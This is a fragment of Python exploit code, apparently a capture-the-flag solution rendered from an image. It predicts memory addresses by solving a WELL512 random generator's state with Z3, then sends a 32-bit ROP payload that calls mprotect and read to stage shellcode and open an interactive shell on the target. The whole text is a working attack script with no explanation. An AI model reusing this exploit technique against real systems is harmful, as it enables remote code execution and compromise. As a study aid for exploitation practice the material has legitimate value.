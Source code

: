 ```python
    r_list.append(r)
info(r_list)
z = find_state(r_list)
info('Solver result => ' + str(z.check()))
next_state = dict()
model = z.model()
for i in model:
    idx = int(str(i)[3:])
    val = model[i].as_long()
    next_state[idx] = val
info(next_state)
for i in range(16):
    if i in next_state:
        state[i] = next_state[i]
idx = 15
for i in range(15):
    idx = well512(idx)
idx = well512(idx)
predict_val = state[idx] - 1
info('predict_val = ' + hex(predict_val))
current_base = 0xfffff000 & predict_val
info('current_base = ' + hex(current_base))

base = 0x8048000
offset = current_base - base
# 0x0804908f : pop eax ; pop ebx ; pop esi ; ret
pop_eax_ebx_esi_ret = 0x0804908f
# 0x0804961a : pop edx ; pop ecx ; pop ebx ; ret
pop_edx_ecx_ebx_ret = 0x0804961a
# 0x0804875f : int 0x80
int_0x80 = 0x0804875f

payload = 'A' * 0x16
payload += m(pop_eax_ebx_esi_ret)
payload += p32(0x7D)
payload += p32(0)
payload += p32(0)
payload += m(pop_edx_ecx_ebx_ret)
payload += p32(0x7)
payload += p32(0x1000)
payload += p32(current_base)
payload += m(int_0x80)
payload += m(pop_eax_ebx_esi_ret)
payload += p32(0x3)
payload += p32(0)
payload += p32(0)
payload += m(pop_edx_ecx_ebx_ret)
payload += p32(0x100)
payload += p32(current_base)
payload += p32(0)
payload += m(int_0x80)
payload += p32(current_base)
payload = payload.ljust(100, 'A')
payload += asm(shellcraft.sh())
p.sendline('4')
p.sendline(payload)
p.interactive()
```

